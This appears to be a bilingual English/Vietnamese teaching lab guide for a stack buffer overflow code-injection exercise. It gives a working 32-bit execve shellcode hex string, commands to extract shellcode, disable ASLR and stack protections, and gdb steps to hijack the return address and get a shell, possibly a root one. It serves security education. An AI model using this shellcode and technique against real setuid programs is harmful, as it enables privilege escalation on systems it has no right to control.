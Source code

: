 Tips for code injection lab:
Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)
(Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi)
Run the folowing script to get the hex string of shellcode:
(Chạy bash script dưới đây ở dòng lệnh để tạo chuỗi hex của shellcode:)
$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
--> hex string generated: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80
or run this script to generate shellcode binary file:
(Hoặc chạy bash script dưới đây ở dòng lệnh để sinh binary file mã shellcode nếu inject bằng cách đọc file)
$> for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done; 
Estimate buffer size of vulnerable program with input strings of various length (eg. ./vuln.out $(python -c "print('a'*nnn)")
(Ước lượng size từ đỉnh stack đến eip khi biên dịch chương trình với option -fno-stack-protector khi gcc)
Compute the distance between buffer (esp) and return address to determine the padding bytes will be injected along with the sheelcode.
(Tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode)
Prepare for the lab environment:
Turn off OS's address space layout randomization (sudo setctl -w kernel.randomization_va_space)
(Tắt chế độ tạo cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)
Compile program with options to defeat stack protecting mechanism and code execution o stack:
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)
$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack
Load vuln.out in gdb 
(Nạp vuln.out trong gdb)
$> gdb vuln.out
Set break point after strcpy instruction
(Đặt điểm dừng chương trình sau lệnh strcpy)
Run program in gdb with injecting argument
(Khởi chạy chương trình trong gdb, chèn chuỗi hex của shellcode trên dòng lệnh)
(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")
Watch the stack memory from esp (stacktop):
(Quan sát bộ nhớ stack từ esp)
(gdb-peda) x/80xb $esp
Identify the return address while watching out the stack, then replace \xff\xff\xff\xff with value of esp
(Xác định vị trí của địa chỉ trả về trong stack, thay thế \xff\xff\xff\xff với địa chỉ của esp)
set *<address of return address> = <address of esp>
Continue execute program, you should now in the new bash shell:
(Thực thi tiếp chương trình, sẽ thấy xuất hiện dấu nhắc shell --> thực thi được shellcode)
(gdb-peda) continue
$_ <-- you are in the new bash. If vuln.out is set with root as the owner, you will be root in the new shell!  
Type exit to be back in gdb
$exit
(gdb-peda)




